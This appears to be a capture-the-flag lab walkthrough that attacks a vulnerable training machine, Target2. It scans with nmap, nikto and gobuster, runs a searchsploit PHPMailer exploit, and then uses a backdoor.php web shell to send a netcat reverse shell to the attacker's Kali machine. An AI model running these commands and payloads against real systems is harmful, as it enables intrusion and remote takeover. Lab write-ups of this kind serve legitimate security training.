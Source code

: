 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other techniques have been explored. Look at the PowerPoint presentation and the Penetration Testing Report Target 2 to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Images/4/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Images/4/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![21](/Images/4/21.PNG)